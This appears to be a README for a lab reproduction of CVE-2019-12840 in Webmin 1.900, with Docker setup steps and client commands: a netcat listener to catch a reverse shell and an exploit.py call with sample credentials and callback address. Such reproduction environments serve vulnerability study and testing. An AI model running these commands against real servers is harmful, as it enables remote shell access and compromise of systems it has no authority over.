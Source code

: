 # CVE-2019-12840

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-12840>


## PoC / Exploit
* <https://github.com/KrE80r/webmin_cve-2019-12840_poc>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900

## Reproduction 

* Server
    - Docker:
    ```shell script
    sudo docker build -t cve-2019-12840 .
    sudo docker run -p10000:10000 -it cve-2019-12840
    ```
    
    - Script:
    ```shell script
    bash installation.sh
    ```    

* Client
    - Terminal 1 (reverse shell) :
    ```shell script
    nc -nlv 7777
    ```
    
    - Terminal 2:
    ```shell script
    python3 exploit.py -u SERVER_IP -U test -P qwerty -lhost LOCAL_IP -lport 7777
    ```
  